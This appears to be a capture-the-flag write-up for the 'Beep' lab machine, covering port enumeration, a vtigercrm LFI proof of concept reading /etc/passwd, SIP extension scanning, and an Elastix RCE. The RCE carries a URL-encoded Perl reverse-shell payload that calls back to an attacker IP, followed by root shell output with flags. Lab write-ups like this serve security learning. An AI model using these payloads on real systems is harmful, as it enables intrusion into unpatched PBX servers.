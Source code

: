 # 10.10.10.7 - beep
## Linux machine with many ports open
### Web 80 and 443
- port 80 website redirects to an https website
	* Elastix login page.
- port 443 also redirects to this webpage
- robots.txt disallowed on /
	* Scanning not may not work

#### https://10.10.10.7/vtigercrm/
- vtigercrm found via gobuster 
	* version is 5.1.0


### Pop3 110 - Cyrus POP3 v2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 server
- Connect via telnet to pop3
	* admin is a valid user

### SMTP 25
- Connecter via telnet to smtp
- grabbed the banner 
```
220 beep.localdomain ESMTP Postfix
```
	* Add beep.localdomain to hosts file

### Port 10000 - MiniServ 1.570
- another login page
- Robots.txt disallowed on /

## BREAKTHROUGH
- LFI within the vtigercrm module is successful
	* POC Below
```
https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00
```
- See if I can ping my own machine and then set the stage for a reverse shell
	* Was unable to find location of logs
	* Could not encode php file into base64
	* Giving up on the lfi to rce

## Elastix 2.2.0 RCE
- used svwar --> SIP Vicious
- Elastix is a PBX system that uses http and smtp to establish its services. Hint is the name of the box and the ports ope
	* Most likely pop3 and imap are rabbit holes to look like a mail server
```
svwar -e100-900 -m INVITE 10.10.10.7
```
- The command scans extentions 100-900 for active ones
- The request method is INVITE which is used to establish calls
	* more information about request methods can be found in wikipedia


```
https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.14.5%3a1985%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A

https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n
Application: system
Data: perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.10.14.3:1985");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>'
```
- The script itself needs to be edited to allow ssl negotiation using urllib
	* however I can bypass this simply by printing the concatinated url

### Initial foothold - User - aterisk
```
sh-3.2# cat user.txt
cat user.txt
aeff3def0c765c2677b94715cffa73ac
```

## Easy root - sudo -l
- multiple choices --> gtfo bins and GTFO
```
sh-3.2# cd /root
cd /root
sh-3.2# dir
dir
anaconda-ks.cfg  elastix-pr-2.2-1.i386.rpm  install.log  install.log.syslog  postnochroot  root.txt  webmin-1.570-1.noarch.rpm
sh-3.2# cat root.txt
cat root.txt
d88e006123842106982acce0aaf453f0
sh-3.2# 

```
